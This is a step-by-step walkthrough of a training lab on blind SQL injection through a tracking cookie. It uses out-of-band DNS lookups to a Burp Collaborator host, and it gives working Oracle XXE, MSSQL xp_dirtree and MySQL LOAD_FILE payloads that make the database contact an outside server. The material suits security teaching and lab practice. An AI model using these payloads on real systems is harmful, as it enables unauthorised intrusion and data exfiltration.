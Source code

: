 # 🎯 Blind SQL Injection with Out-of-Band Interaction – Lab Walkthrough 🎯

🎥 **Hi everyone!**  
we’re diving into **Lab #15: Blind SQL Injection with Out-of-Band Interaction**. Let’s roll up our sleeves and exploit this vulnerability like a pro. 💻🔒

## 🔍 **Lab Overview**

- **Objective**: Exploit a **blind SQL injection** vulnerability that doesn’t return any data in the response.
- **Vulnerable Parameter**: `TrackingId` cookie used for analytics.
- **Key Twist**: The SQL query is executed **asynchronously**, so we won’t see direct feedback from our payload.
- **Solution Strategy**: Use **out-of-band (OOB) interaction** to trigger a DNS lookup to **Burp Collaborator**.

> ⚠️ You need **Burp Suite Professional** to complete this lab. The Community Edition won't work because it lacks Collaborator support.

## 🧪 Step-by-Step Guide 🧪✨

### 1️⃣ **Open Burp Collaborator Client**

🟢 Go to **Burp > Collaborator > Copy to clipboard**  
📌 Paste your unique collaborator domain somewhere safe (e.g., `xyzabc123.oastify.net`)  
🧠 This is how we’ll know our attack worked — if we see an interaction from the server to this domain!

### 2️⃣ **Capture the Request with Burp Proxy**

🌐 Visit the lab homepage  
🔌 Ensure **FoxyProxy/Burp Proxy is active**  
🔁 Intercept the request in **Proxy > HTTP History**  
📤 Right-click → **Send to Repeater**

### 3️⃣ **Analyze the Vulnerable Parameter**

🍪 Look at the `TrackingId` cookie value  
It probably looks something like:
```
TrackingId=abc123xyz;
```

This cookie is being used in a backend SQL query — and it's **not properly sanitized** 🚨

### 4️⃣ **Craft Your OOB SQL Injection Payload**

We don’t know the database type, so we'll start with **Oracle payloads** since they're commonly exploitable via XXE for OOB interactions.

#### 📦 Oracle XXE-based DNS Lookup Payload (Unpatched):
```sql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

🧩 Replace `BURP-COLLABORATOR-SUBDOMAIN` with your actual subdomain from step 1.

### 5️⃣ **URL Encode the Payload**

✅ In Burp Repeater, select the payload → **Ctrl + U** to URL encode it  
📘 This ensures special characters are handled correctly by the server.

Example:
```
TrackingId='+UNION+SELECT+EXTRACTVALUE(xmltype('%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+root+%5B+...
```

### 6️⃣ **Send the Modified Request**

🔄 Hit **Send** in Repeater  
🕒 Wait a few seconds  
🔁 Click **Poll Now** in the Collaborator tab

👀 If everything worked, you should see a new interaction from the application's IP address!

### 7️⃣ **Success! 🎉**

🎉 Congratulations! You triggered a DNS lookup using SQL injection.  
✅ The lab is now solved!

## 🛡️ Real-World Tip:

While this lab only asks for a DNS lookup, in real-world scenarios, attackers can use similar techniques to:
- Exfiltrate sensitive data 📤
- Trigger reverse shells 🐚
- Enumerate internal networks 🌐

Always validate and sanitize all user input to prevent such attacks!

## 📝 Summary Checklist ✅

| Step | Action |
|------|--------|
| 🔹 | Open Burp Collaborator & copy your subdomain |
| 🔹 | Send home page request to Repeater |
| 🔹 | Inject OOB payload into TrackingId cookie |
| 🔹 | URL encode the payload |
| 🔹 | Send the modified request |
| 🔹 | Check Collaborator for DNS interaction |
| 🔹 | Celebrate success 🎊 |

## 📚 Bonus: Different DB Payloads

If Oracle doesn’t work, try other DB-specific payloads:

### Microsoft SQL Server 🖥️
```sql
'; exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--
```

### MySQL 🗄️
```sql
AND LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\test.txt')
```

Remember to adjust syntax and encoding accordingly!

## 🎬 Final Words

This was a fun dive into **Blind SQL Injection with out-of-band interaction**! It shows how even when you get **no visible feedback**, you can still confirm exploitation through external channels like DNS lookups.
💬 Drop questions or thoughts in the comments — happy hacking! 🛠️👾

🔐 Until next time, stay secure and keep learning!  

